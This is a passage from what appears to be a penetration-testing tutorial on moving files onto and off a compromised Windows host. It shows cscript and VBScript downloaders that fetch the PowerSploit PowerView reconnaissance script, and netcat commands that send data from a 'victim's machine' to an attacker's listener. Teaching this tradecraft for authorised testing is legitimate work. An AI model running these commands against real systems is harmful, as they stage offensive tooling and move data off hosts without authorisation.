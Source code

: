 ```js
```

Now, we can execute the JavaScript code and download the file from  a Windows command prompt or PowerShell terminal:

```cmd
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```


### VBScript

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic.

We'll create a file called `wget.vbs` and save the following content:

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

Now, download a File Using VBScript and cscript.exe

```cmd-session
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

### Netcat

#### Printing information on screen

On the server side (attacking machine):

```bash
#data will be printed on screen
nc -lvp <port>  
```

On the client side (victim's machine):

```bash
echo “hello” | nc -v $ip <port>
```

####  Transfer data and save it in a file with netcat
